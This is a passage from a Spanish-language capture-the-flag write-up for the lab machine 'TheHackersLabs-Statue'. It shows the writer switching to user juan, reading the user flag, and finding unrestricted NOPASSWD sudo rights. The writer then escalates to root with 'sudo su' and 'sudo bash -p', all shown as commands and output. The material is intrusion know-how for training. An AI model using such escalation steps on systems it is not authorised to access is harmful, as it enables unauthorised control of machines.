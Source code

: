 Comprobémoslo:
```bash
charles@TheHackersLabs-Statue:~$ su juan
Password: 
juan@TheHackersLabs-Statue:/home/charles$ whoami
juan
```
Excelente.

Pasando a su directorio, encontraremos la flag del usuario:
```bash
juan@TheHackersLabs-Statue:/home/charles$ cd ../juan/
juan@TheHackersLabs-Statue:~$ ls -la
total 32
drwxr-x--- 3 juan juan  4096 Aug 31  2024 .
drwxr-xr-x 4 root root  4096 Sep  1  2024 ..
lrwxrwxrwx 1 juan juan     9 Aug 31  2024 .bash_history -> /dev/null
-rwxrwxr-x 1 juan juan 16008 Aug 30  2024 binario
drwxrwxr-x 3 juan juan  4096 Aug 30  2024 .local
-rw-rw-r-- 1 juan juan    33 Aug 30  2024 user.txt
juan@TheHackersLabs-Statue:~$ cat user.txt
...
```

También encontramos otro binario que, al ejecutarlo, aplica un ping al **localhost**:
```bash
juan@TheHackersLabs-Statue:~$ ./binario 
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.035 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.026 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.024 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.026 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3091ms
rtt min/avg/max/mdev = 0.024/0.027/0.035/0.004 ms
```
No hay algo que podamos hacer con este binario por ahora.

Si revisamos nuestros privilegios, resulta que tenemos todos:
```bash
juan@TheHackersLabs-Statue:~$ sudo -l
Matching Defaults entries for juan on TheHackersLabs-Statue:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on TheHackersLabs-Statue:
    (ALL) NOPASSWD: ALL
```

Entonces, solamente tenemos que ejecutar la **Bash** como **Root** o, simplemente, autenticarnos como **Rooot**:
```bash
juan@TheHackersLabs-Statue:~$ sudo su
root@TheHackersLabs-Statue:/home/juan# whoami
root
root@TheHackersLabs-Statue:/home/juan# exit
exit
juan@TheHackersLabs-Statue:~$ sudo bash -p
root@TheHackersLabs-Statue:/home/juan# whoami
root
```
Listo, somos **Root**.
